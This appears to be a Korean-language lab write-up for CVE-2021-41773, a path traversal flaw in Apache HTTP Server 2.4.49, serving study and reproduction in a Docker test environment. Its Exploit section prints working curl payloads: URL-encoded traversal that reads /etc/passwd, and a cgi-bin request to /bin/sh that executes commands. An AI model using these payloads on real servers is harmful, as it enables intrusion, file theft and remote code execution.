

# Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49 (CVE-2021-41773)

## 요약
The Apache HTTP Server Project는 UNIX 및 Windows를 포함한 현대 운영체제를 위한 오픈소스 HTTP 서버를 개발하고 유지하려는 노력입니다.

Apache HTTP Server 2.4.49버전에서 경로 정규화에 대한 변경사항에서 결함을 확인했습니다.
공격자는 path traversal attack을 이용해 url을 정해진 document root외의 파일에 매핑할 수 있습니다.

이런 디렉토리 외부 파일이 일반적인경우 default configuration인 : "require all denied"로 보호되지 않은 경우에, 공격이 성공할 수도 있습니다.
만약, CGI스크립트 역시 활성화된 상태라면 aliased path에 대해서도 Remote Code Execution이 가능해집니다.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 환경구성

테스트 환경 구성을 위해 다음 명령어를 실행합니다:

```
docker compose build
docker compose up -d
```

서버가 정상적으로 구동된다면, `http://your-ip:8080` 에 접속하여 Apache HTTP Server의 `It works!`라는 문구를 확인할 수 있습니다.

## Exploit

취약점 재현을 위한 curl 명령어 ( `/icons/` 이라는 디렉터리가 존재해야함 )

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

`/etc/passwd` 를 성공적으로 확인할 수 있습니다.



서버에서 CGI 또는 CGID 모드를 활성화하면, path traversal취약점으로 인해 임의 명령실행이 허용됩니다.

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```


## 정리

상위 디렉터리 문자열 "../"에 대한 필터링 미흡으로 발생한 취약점입니다.

기본적으로 Apache에서 "../"문자열이 차단되어 있지만, URL 인코딩을 이용해 우회가 가능합니다.
